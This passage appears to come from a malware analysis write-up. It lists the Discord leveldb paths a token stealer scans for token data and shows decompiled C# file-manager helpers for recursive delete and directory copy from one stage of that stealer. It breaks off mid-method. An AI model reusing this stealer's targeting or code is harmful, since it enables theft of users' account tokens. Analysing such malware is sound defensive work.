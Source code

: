 
### **DiscordDirectories**

- Paths scanned for token data and leveldb files:
    - `Discord\Local Storage\leveldb`
    - `Discord PTB\Local Storage\leveldb`
    - `Discord Canary\leveldb`

# Stage 8: File Manager

```csharp
using System;
using System.IO;
using System.Linq;

namespace Helpers
{
	// Token: 0x02000006 RID: 6
	internal sealed class Filemanager
	{
		// Token: 0x06000012 RID: 18 RVA: 0x00002E44 File Offset: 0x00001044
		public static void RecursiveDelete(string path)
		{
			DirectoryInfo directoryInfo = new DirectoryInfo(path);
			bool flag = !directoryInfo.Exists;
			if (!flag)
			{
				foreach (DirectoryInfo directoryInfo2 in directoryInfo.GetDirectories())
				{
					Filemanager.RecursiveDelete(directoryInfo2.FullName);
				}
				directoryInfo.Delete(true);
			}
		}

		// Token: 0x06000013 RID: 19 RVA: 0x00002E98 File Offset: 0x00001098
		public static void CopyDirectory(string sourceFolder, string destFolder)
		{
			try
			{
				bool flag = !Directory.Exists(destFolder);
				if (flag)
				{
					Directory.CreateDirectory(destFolder);
				}
				string[] files = Directory.GetFiles(sourceFolder);
				foreach (string text in files)
				{
					string fileName = Path.GetFileName(text);
					string text2 = Path.Combine(destFolder, fileName);
					File.Copy(text, text2);
				}
				string[] directories = Directory.GetDirectories(sourceFolder);
				foreach (string text3 in directories)
				{
					string fileName2 = Path.GetFileName(text3);
					string text4 = Path.Combine(destFolder, fileName2);
					Filemanager.CopyDirectory(text3, text4);
				}
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
```